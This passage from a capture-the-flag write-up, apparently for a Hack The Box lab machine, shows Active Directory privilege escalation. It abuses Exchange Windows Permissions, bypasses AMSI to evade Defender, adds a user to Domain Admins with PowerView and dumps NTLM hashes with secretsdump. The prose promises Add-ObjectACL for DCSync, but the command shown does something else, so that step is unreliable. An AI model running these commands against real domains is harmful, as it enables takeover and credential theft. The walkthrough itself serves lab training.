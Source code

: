Looking closer, we can see the aformentioned `Account Operators` group has `GenericAll` privileges (full control) over the `Exchange Windows Permissions` group, which in turn has `WriteDacl` privileges on the domain. 

![Exchange Windows Permissions group](/images/bloodhound3.png)

With write access to the target object's DACL (Discretionary Access Control List), you can grant yourself any privilege you want on the object. We can exploit this by adding a user to the group and giving them `DCSync` privileges.

To do this, we must create a new user and add it to the `Exchange Windows Permissions` and `Remote Management Users` group.
```
PS C:\Users\svc-alfresco> net user knytecode abc123! /add /domain
PS C:\Users\svc-alfresco> net group "Exchange Windows Permissions" knytecode /add
PS C:\Users\svc-alfresco> net localgroup "Remote Management Users" knytecode /add
```
To aid in adding `DCSync` privilege to our user on the domain's ACL, we can import the [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/dev/Recon) module.

_"PowerView is a PowerShell tool to gain network situational awareness on Windows domains. It contains a set of pure-PowerShell replacements for various windows net* commands, which utilize PowerShell AD hooks and underlying Win32 API functions to perform useful Windows domain functionality"_

Before uploading the PowerView script, we run the Bypass-4MSI command in Evil-WinRM to evade Windows Defender.
```
PS C:\Users\svc-alfresco> Bypass-4MSI
[+] Patched! :D
PS C:\Users\svc-alfresco> upload /usr/share/windows-resources/PowerSploit/Recon/PowerView.ps1
PS C:\Users\svc-alfresco> Import-Module ./PowerView.ps1
```
Now we can use the `Add-ObjectACL` function from PowerView to give the new user DCSync rights.
```
PS C:\Users\svc-alfresco> $Pass = ConvertTo-SecureString 'abc123!' -AsPlainText -Force
PS C:\Users\svc-alfresco> $Cred = New-Object System.Management.Automation.PSCredential('htb\knytecode', $Pass)
PS C:\Users\svc-alfresco> Add-DomainGroupMember -Identity 'Domain Admins' -Members 'knytecode' -Credential $Cred
```
We can now run the Impacket `secretsdump` tool with our new user to reveal the NTLM hashes for all domain users.
```shell-session
knytecode@parrot:~$ impacket-secretsdump htb/knytecode@10.10.10.161
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
Password: <abc123!>
```